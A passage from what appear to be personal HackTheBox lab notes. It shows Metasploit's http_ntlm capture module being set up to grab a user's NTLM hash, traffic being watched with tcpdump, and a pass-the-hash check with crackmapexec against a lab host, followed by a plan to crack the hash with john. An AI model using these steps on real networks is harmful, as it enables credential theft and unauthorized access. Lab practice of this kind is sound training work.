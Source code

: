 Now we could use responder to perform the following..but trying out MSF_ Capture http_ntlm module instead 
### MSF_Capture http_ntlm module 

```
sudo msfdb run
```

```
use auxiliary/server/capture/http_ntlm
```

```
show options
```

![[HackTheBox/Windows/attachments/Pasted image 20250519212509.png]]

```
set SRVPORT 80 
```

```
set URIPATH /
```

```
set RHOSTS 10.10.14.8
```

```
set JOHNPWFILE intelligence
```

RUN

![[HackTheBox/Windows/attachments/Pasted image 20250519212718.png]]

In order to see what's happening -> use tcpdump 

```
sudo tcpdump -i tun0 port 80 -n -vvv
```

![[HackTheBox/Windows/attachments/Pasted image 20250519212849.png]]

We get Ted.Graves' hash 

![[HackTheBox/Windows/attachments/Pasted image 20250519212944.png]]

Validate it's an NTLM hash using crackmapexec 

```
crackmapexec smb 10.10.10.248 -u ted.graves -H f3iriyueheh487373
```

![[HackTheBox/Windows/attachments/Pasted image 20250519213114.png]]
- no this hash didn't work

Crack this hash with #john 
